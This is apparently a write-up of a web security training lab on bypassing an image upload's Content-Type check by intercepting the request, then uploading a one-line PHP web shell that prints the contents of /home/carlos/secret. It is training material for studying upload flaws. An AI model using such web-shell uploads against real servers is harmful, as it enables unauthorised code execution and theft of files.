




# Web shell upload via Content-Type restriction bypass
# Objective
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Uploading txt file
File type `text/plain` is not allowed. Only `image/jpeg` and `image/png` is allowed.

||
|:--:| 
| *Upload attempt* |

There is a chance that by intercepting request and changing file type in txt file upload would go through.

### Upload request example

||
|:--:| 
| *Normal upload request* |


## Exploitation

Payload `exploit.php`:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

||
|:--:| 
| *PHP payload code upload* |
||
| *Path to uploaded file* |
||
| *Triggering uploaded PHP file* |
